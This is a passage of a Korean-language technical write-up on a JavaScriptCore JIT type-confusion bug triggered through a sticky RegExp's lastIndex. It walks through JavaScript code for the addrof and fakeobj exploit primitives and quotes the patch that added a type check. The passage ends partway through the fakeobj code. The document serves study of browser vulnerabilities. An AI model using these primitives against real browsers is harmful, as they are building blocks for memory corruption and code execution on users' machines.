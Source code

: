 위 코드는 JIT최적화 기법중 간단한 코드는 인라이닝 하는 기법이 있는데 그것을 우회하기 위해 충분히 복잡하게 만들기 위해 사용한 코드이다.

        // Setup haxx
        regexLastIndex = {};
        regexLastIndex.toString = function() {
            array[0] = val;
            return "0";
        };
        reg.lastIndex = regexLastIndex;

`sticky`모드에서 사용할 `lastIndex`를 설정하는 코드이다. `lastIndex`에서부터 regex 비교를 한다. 따라서 원래는 `number`타입이 들어가야 한다.하지만 오브젝트를 넣고, `toString`을 덮어써 리턴값을 문자열로 된  0으로 주면 실제 regex는 0을 받아 그 객체의 toString함수를 호출해 정상적으로 0번째 인덱스부터 찾으면서 array의 0번째 인덱스에 있는 13.37 값을 원하는 주소로 덮어쓴다. 마지막에 호출하는 `AddrGetter`는 regex연산 후 array를 돌려준다.

    		// Target function
        var AddrGetter = function(array) {
            // reg[Symbol.match]();
            "abc".match(reg);
            return array[0];
        }

원래는 흐름대로라면 `array[0] = val`코드에서 array의 타입이 `ArrayWithDouble`에서 `ArrayWithContiguous`로 바뀌어야 하지만 JIT버그로 인해 그대로 `ArrayWithDouble`타입의 엘리먼트에서 0번째 인덱스 (사용자가 설정한 주소)를 리턴한다.

    return typeof regexp.lastIndex !== "number";

해당 취약점을 패치하기 위해 타입체크가 `/builtins/RegExpPrototype.js`에 추가되었다.

## fakeobj

`fakeobj`는 `addrof`를 반대로 만들어 작성할 수 있다.

    // addrof primitive
    function fakeobj(val) {
        var array = [13.37];
        var reg = /abc/y;
    
        // Target function
        var AddrSetter = function(array) {
            // reg[Symbol.match]();
            "abc".match(reg);
            array[0] = val
        }
    
        // Force optimization
        for (var i = 0; i < 10000; ++i)
            AddrSetter(array);
    
        // Setup haxx
        regexLastIndex = Proxy;
        regexLastIndex.toString = function() {
            array[0] = [];
            return "0";
        };
        reg.lastIndex = regexLastIndex;
    